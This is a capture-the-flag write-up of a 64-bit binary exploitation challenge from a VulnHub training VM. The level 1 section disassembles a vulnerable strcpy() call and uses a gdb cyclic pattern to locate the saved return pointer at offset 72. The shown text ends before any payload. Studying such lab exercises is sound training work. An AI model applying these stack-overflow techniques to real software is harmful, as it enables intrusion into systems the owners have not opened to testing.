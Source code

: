 ```yaml
---
layout: post
title: "The Pentesters: 64-Bit AppSec Primer (Beta) hacking challenge"
date: 2016-08-16 03:41:36 -0400
comments: true
categories: boot2root
---
```


I was quite excited when this VM was posted on [VulnHub](https://www.vulnhub.com/) and downloaded it right away. Exploiting and reverse engineering 64-bit binaries, and you get a chance to win a prize? Sign me up! Unfortunately I started to lose motivation when I found out that the author accidentally pushed out the beta version of the VM which includes errors such as ASLR being left on, and a challenge being unsolvable, among possible other bugs. 

Still, I did what I could until I lost interest. Here's a writeup of the challenges I solved. If you're interested in giving it a go, grab it from [here](https://www.vulnhub.com/entry/the-pentesters-64-bit-appsec-primer-beta,155/). I might give this another run if the final version is made available. The official decription of the contest can be found [here](http://www.thepentesters.net/challenge/).

## Level 1

When I initially solved this challenge, ASLR was turned on and so it seemed ridiculously hard compared to the level 2 challenge. After a few hours of analysis and trial and error, I found a solution.

The obvious vulnerability was that strcpy() was writing past the buffer and overwriting the saved return pointer in vuln()

```
[0x004004c0]> pdf@sym.vuln
╒ (fcn) sym.vuln 38
│           ; var int local_40h @ rbp-0x40
│           ; var int local_48h @ rbp-0x48
│           ; CALL XREF from 0x00400633 (sym.main)
│           0x004005b6      55             push rbp
│           0x004005b7      4889e5         mov rbp, rsp
│           0x004005ba      4883ec50       sub rsp, 0x50
│           0x004005be      48897db8       mov qword [rbp - local_48h], rdi
│           0x004005c2      488b55b8       mov rdx, qword [rbp - local_48h]
│           0x004005c6      488d45c0       lea rax, [rbp - local_40h]
│           0x004005ca      4889d6         mov rsi, rdx
│           0x004005cd      4889c7         mov rdi, rax
│           0x004005d0      e89bfeffff     call sym.imp.strcpy
│           0x004005d5      b801000000     mov eax, 1
│           0x004005da      c9             leave
╘           0x004005db      c3             ret
```

Using a cyclic pattern, it became obvious that the saved return pointer could be overwritten at offset 72. 

```
gdb-peda$ r aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Starting program: /root/work/level01/chall1 aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Bet ya can't pwn me!
#n00b
[----------------------------------registers-----------------------------------]
RAX: 0x1
RBX: 0x0
RCX: 0x7fee3aa69ed0 (<__strcpy_sse2_unaligned+1104>:    movdqu xmm0,XMMWORD PTR [rsi])
RDX: 0xf
RSI: 0x7ffe5c6d6940 ("aaawaaaxaaayaaa")
```
